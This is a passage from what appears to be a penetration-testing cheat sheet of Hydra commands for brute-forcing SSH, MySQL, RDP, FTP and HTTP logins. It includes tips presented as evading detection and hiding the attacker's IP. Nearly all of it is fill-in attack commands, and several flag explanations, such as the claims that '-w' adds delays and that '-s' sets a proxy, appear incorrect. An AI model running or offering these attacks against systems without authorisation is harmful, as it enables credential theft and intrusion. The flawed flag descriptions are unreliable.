     ```
6. **MySQL Bruteforce Attack**: Performs a brute-force attack against a MySQL database.
    ```bash
    hydra -l <username> -P <password_list> mysql://<target_ip>
    ```
7. **RDP (Remote Desktop Protocol) Bruteforce**: Brute-forces the RDP service on the target IP.
    ```bash
    hydra -l <username> -P <password_list> rdp://<target_ip>
    ```

# Penetration Testing Techniques

#### Bruteforce Techniques

1. **Using Username and Password Combinations**: Attempts every combination of usernames and passwords from the provided lists.
    ```bash
    hydra -L <username_list> -P <password_list> ssh://<target_ip>
    ```
2. **Brute-force with Null, Same, and Reverse Passwords**: Tries null passwords, the username as the password, and the reverse of the username as the password.
    ```bash
    hydra -l <username> -P <password_list> -e nsr ssh://<target_ip>
    ```
3. **Brute-force Multiple Services Simultaneously**: Simultaneously brute-forces multiple services on the same target.
    ```bash
    hydra -l <username> -P <password_list> ssh://<target_ip> ftp://<target_ip> http-get://<target_ip>/<path>
    ```
4. **Throttling Attack Speed**: Limits the number of parallel tasks to 4 to avoid overwhelming the target service.
    ```bash
    hydra -l <username> -P <password_list> -t 4 ssh://<target_ip>
    ```
5. **Evading Detection with Random Delays**: Introduces a 5-second delay between each attempt to evade detection by security mechanisms.
    ```bash
    hydra -l <username> -P <password_list> -t 4 -w 5 ssh://<target_ip>
    ```
6. **Brute-force with Custom Headers (HTTP)**: Uses custom HTTP headers in brute-force attacks, useful for bypassing some security mechanisms.
    ```bash
    hydra -l <username> -P <password_list> -m "Authorization: Basic <base64_encoded_credentials>" http-get://<target_ip>/<path>
    ```
7. **Brute-forcing with a Proxy**: Routes the brute-force attack through a proxy server to hide the attacker's IP address.
    ```bash
    hydra -l <username> -P <password_list> -s <proxy_port> -o <output_file> -e nsr ssh://<target_ip>
    ```
8. **Distributed Brute-force Using Multiple Machines**: Distributes the brute-force attack across multiple machines by specifying a list of targets.
    ```bash
    hydra -l <username> -P <password_list> -M <target_list> -t 64 -f -o <output_file>
    ```
